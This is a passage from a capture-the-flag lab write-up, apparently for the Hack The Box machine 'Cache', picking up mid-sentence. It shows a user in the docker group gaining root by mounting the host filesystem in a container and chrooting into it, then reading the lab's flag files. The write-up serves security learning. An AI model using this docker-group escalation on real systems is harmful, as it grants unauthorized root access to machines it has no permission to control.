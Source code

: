 the user `luffy` also doesnt have read `perm`to the file `user.txt`,i was thinking that i need to find a way for `ash`

> id

By running id we can see that the user luffy is in the group docker

```
luffy@cache:~$ id
uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
luffy@cache:~$ 
```

Search in GTFObin and I found this one

![Desktop View](/assets/img/sample/cache/8.png)


And run it like this

```shell
luffy@cache:~$ docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
root@1d536c8a7e87:/# whoami
root
root@1d536c8a7e87:/#
```


# [](header-2)Got user.txt

```
root@1d536c8a7e87:/# cat /home/ash/user.txt
3f26455***************46abcbd5
root@1d536c8a7e87:/# 
```

# [](header-2)Got root.txt

```
root@1d536c8a7e87:/# cat /root/root.txt
51fcbbb**************182309c25a
root@1d536c8a7e87:/#
```


And we owned it , `thanks for reading`


<script src="https://www.hackthebox.eu/badge/237587"></script>
